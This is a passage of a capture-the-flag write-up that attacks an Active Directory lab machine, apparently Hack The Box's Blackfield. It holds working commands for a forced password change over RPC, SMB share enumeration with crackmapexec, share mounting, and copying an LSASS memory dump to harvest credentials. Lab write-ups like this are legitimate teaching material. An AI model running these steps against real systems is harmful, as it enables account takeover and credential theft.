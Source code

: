 Then drag all the json files to the bloodhound interface (just anywhere)

And we search for the user we have compromised (support) and set it as our starting node. Now we go through the node info and we see there is something under First Degree Object Control. We have ForceChangePassword rights over the user audit2020. Right-click on the line connecting the two users and click on Linux Abuse to get the instruction for the exploit

```bash
net rpc password "audit2020" "newP@ssword2022" -U "BLACKFIELD"/"support"%"#00^BlackKnight" -S "10.129.252.166"
```

Let’s once again enumerate the smb shares with our new user

```bash
crackmapexec smb 10.129.252.166 -u "audit2020" -p "newP@ssword2022" --shares

result:
SMB         10.129.252.166  445    DC01             Share           Permissions     Remark
SMB         10.129.252.166  445    DC01             -----           -----------     ------
SMB         10.129.252.166  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.252.166  445    DC01             C$                              Default share
SMB         10.129.252.166  445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.129.252.166  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.252.166  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.252.166  445    DC01             profiles$       READ            
SMB         10.129.252.166  445    DC01             SYSVOL          READ            Logon server share
```

We have read permission on forensic share. Let’s once again mount the share on our host and read what’s in the forensic share

```bash
sudo mount -t cifs -o 'username=audit2020,password=newP@ssword2022' //10.129.252.166/forensic /mnt

cd /mnt
cd /commands_output/domain_admins.txt

result:
Members

-------------------------------------------------------------------------------
Administrator       Ipwn3dYourCompany

cat tasklist.txt #looking for firefox, maybe we can steal cookies, firefox not found.

cd ../memory_analysis
ls
#One file that stood out is lsass.zip, LSASS (Local Security Authority Subsystem Service) is a Windows process responsible for enforcing security policies and storing user credentials in memory, making it a key target for attackers seeking to extract passwords or hashes for lateral movement. Let's copy that into our working dir

cp lsass.zip ~/htb_lab/blackfield
```
